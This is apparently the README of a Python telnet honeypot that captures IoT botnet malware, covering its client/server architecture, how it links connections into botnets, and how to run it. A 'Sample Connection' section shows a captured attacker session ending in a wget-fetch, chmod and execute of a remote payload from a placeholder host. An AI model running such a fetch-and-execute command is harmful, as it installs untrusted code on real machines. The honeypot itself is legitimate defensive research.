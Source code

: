 # Telnet IoT honeypot

'Python telnet honeypot for catching botnet binaries'

This project implements a python telnet server trying to act
as a honeypot for IoT Malware which spreads over horribly
insecure default passwords on telnet servers on the internet.

The honeypot works by emulating a shell enviroment, just like 
cowrie (https://github.com/micheloosterhof/cowrie).
The aim of this project is primarily to automatically analyse
Botnet connections and "map" Botnets by linking diffrent
connections and even Networks together.

## Architecture

The application has a client/server architecture,
with a client (the actual honeypot) accepting telnet connections
and a server which receives information about connections and
does the analysis.

The backend server exposes a HTTP interface which is used
to access to frontend as well as by the clients to push new
Connection information to the backend.

## Automatic analysis

The Backend uses 2 diffrent mechanisms to automatically link
connections:

### Networks

Networks are discovered Botnets. A network is the set of all linked
connections, urls and samples. Urls and samples
are linked when they are used in a connection. Two connections are linked
when both connections are recieved by the same honeypot client
(mutliple clients are supported!) and use the same credentials in a short
period of time (defautl 2 minutes) or come from the same IP address.

### Malware

Multiple networks are identified to use the same type of malware
if the text entered during sessions of the networks aro mostly the
same. This comparison is done using sort of "hash"-function which
basically translates a session (or connection) into a sequence
of words and then maps each word to a single byte so this resulting
sequence of bytes can be easily searched.

# Running

The application has a config file named config.py.
Samples are included for local and client/server deployments.

## Configuration

The backend requires a SQL-database (default sqlite) which is initialized
at first run. Before the first run you should generate a admin account
which is used to generate more users. The admin account can also directly
used by a client to post connections. When more than one honeypots shall be
connected, creating multiple users is recommended.

	bash create_config.sh

Both client and backend will read the files `config.yaml` and `config.dist.yaml`
to read configuration parameters. The `config.dist.yaml` file includes
default values for all but admin user credentials and these parameters
are overwirtten by entries in the `config.yaml` file.

## Running the Server

	python backend.py

## Running the Client

	python honeypot.py

The client cannot be started without the server running. To use a diffrent configuration
for the client you can use the `-c` switch like this:

	python honeypot.py -c myconfig.yaml

If you only want to check the honeypot functionality,
you can start the client in interactive mode:

	python honeypot shell

## Opening the frontend

After the server is started, open `http://127.0.0.1/` in your favorite browser.

## Sample Connection

	enable
	shell
	sh
	cat /proc/mounts; /bin/busybox PEGOK
	cd /tmp; (cat .s || cp /bin/echo .s); /bin/busybox PEGOK
	nc; wget; /bin/busybox PEGOK
	(dd bs=52 count=1 if=.s || cat .s)
	/bin/busybox PEGOK
	rm .s; wget http://example.com:4636/.i; chmod +x .i; ./.i; exit

## Images

![Screenshot 1](images/screen1.png)

![Screenshot 2](images/screen2.png)

![Screenshot 3](images/screen3.png)
